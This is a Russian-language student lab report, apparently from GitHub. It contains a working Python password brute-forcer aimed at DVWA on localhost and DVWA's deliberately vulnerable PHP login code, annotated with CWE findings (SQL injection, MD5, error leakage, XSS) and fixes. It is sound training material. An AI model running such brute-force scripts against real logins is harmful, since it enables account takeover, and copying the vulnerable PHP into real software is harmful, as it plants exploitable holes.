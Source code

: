 # DAMDINOV_LAB_3

Для выполнения данной лабораторной работы была установлена виртуальная система Dojo
![image](https://github.com/user-attachments/assets/badda7dd-b919-49ab-9aa8-aebd15eaa26d)


Задание 1. Переборщик

Запуск DVWA 
![image](https://github.com/user-attachments/assets/44db3c1e-8834-4947-8cfa-72ce0c2d50b5)

Для успешного перебора кода нужно PHPSESSID 
![image](https://github.com/user-attachments/assets/c90a1eae-a58a-4ec1-88fe-4567a7284332)

Код переборщика:
```
import itertools
import requests
import time

charset = 'abcdefghijklmnopqrstuvwxyz'
pass_length = 8
username = "admin"
dop = "passwo"
session = requests.Session()
url = "http://localhost/dvwa/vulnerabilities/brute/"
session.cookies.set("PHPSESSID", "tpqr8qp76rlhvmp091uglh98tm")
session.cookies.set("security", "low")

def podbor(url, username, password):
    params = {
        'username': username,
        'password': password,
        'Login': 'Login'
    }
    try:
        response = session.get(url, params=params)
        return "Welcome to the password protected area admin" in response.text
    except requests.exceptions.ConnectionError as e:
        print(f"[-] Ошибка подключения: {e}")
        return False
    except requests.exceptions.RequestException as e:
        print(f"[-] Ошибка при запросе: {e}")
        return False

def generate_passwords(dop, length, charset):
    remaining_length = length - len(dop)
    for combination in itertools.product(charset, repeat=remaining_length):
        yield dop + ''.join(combination)

def main():
    start_time = time.time()
    print("[*] Начинаем перебор пароля...")
    for password in generate_passwords(dop, pass_length, charset):
        print(f"[*] Проверяем: {password}")
        if podbor(url, username, password):
            print(f"[+] Успешно! Пароль: {password}")
            break
    else:
        print("[-] Не удалось найти пароль.")
    end_time = time.time()
    print(f"[+] Время выполнения: {end_time - start_time:.2f} с")

if __name__ == "__main__":
    main()

```
Переборщик успешно подбирает пароль
![image](https://github.com/user-attachments/assets/24b006af-4ee7-4748-a1af-98a219350616)


Задание 2. Анализ кода
```
<?php
if( isset( $_GET[ 'Login' ] ) ) {
    // Получение имени пользователя
    $user = $_GET[ 'username' ];
    // Получение пароля
    $pass = $_GET[ 'password' ];
    
    // CWE-327 (Использование устаревшего или ненадежного криптографического алгоритма)
    // Используется MD5 для хеширования паролей, что небезопасно. Этот алгоритм считается устаревшим и уязвимым для атак, таких как подбор и коллизии.
    $pass = md5( $pass );

    // CWE-89 (SQL-инъекции)
    // Переменные $user и $pass напрямую вставляются в SQL-запрос без экранирования или использования подготовленных выражений. Это делает приложение уязвимым для SQL-инъекций.
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    
    // Выполнение SQL-запроса
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) 
        // CWE-209 (Утечка информации через сообщения об ошибках)
        // Вывод ошибок базы данных на экран позволяет атакующему получить информацию о структуре базы и настройках приложения, что облегчает последующие атаки.
        or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    if( $result && mysqli_num_rows( $result ) == 1 ) {
        // Получение данных пользователя
        $row    = mysqli_fetch_assoc( $result );
        $avatar = $row["avatar"];
        
        // CWE-79 (Неэкранированные данные во время генерации веб-страницы — XSS)
        // Данные, полученные из базы данных (например, $avatar), не проходят проверку или экранирование.
        // Это позволяет злоумышленнику внедрять вредоносный код (JavaScript) в веб-страницу.
        $html .= "<p>Welcome to the password protected area {$user}</p>";
        $html .= "<img src=\"{$avatar}\" />";
    }
    else {
        // Ошибка входа
        $html .= "<pre><br />Username and/or password incorrect.</pre>";
    }
    // Закрытие подключения
    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>
```
1) Использование устаревшего хеширования (CWE-327): MD5 не обеспечивает должной безопасности для хранения паролей. Нужно заменить на bcrypt.

2) SQL-инъекции (CWE-89): прямое включение пользовательских данных в SQL-запросы без экранирования делает систему уязвимой. Необходимо использовать подготовленные выражения (mysqli_stmt или PDO).

3) Вывод ошибок базы данных в браузер (CWE-209): сообщения об ошибках предоставляют атакующему ценную информацию о сервере и базе данных. Ошибки должны логироваться только на сервере.

4) Уязвимость для XSS (CWE-79): Переменные $user и $avatar выводятся на страницу без экранирования. Это открывает возможность внедрения вредоносного кода. Нужно использовать htmlspecialchars для безопасного вывода данных.

5) Нет защиты от атак методом перебора: не предусмотрено ограничение на количество попыток входа, что делает систему уязвимой для атак перебора паролей.


Задание 3. Своя система авторизации
Для создания своей системы авторизации была установлена XAMPP
![image](https://github.com/user-attachments/assets/1286ac8f-dda0-411c-abb0-dff1c5d5b14c)



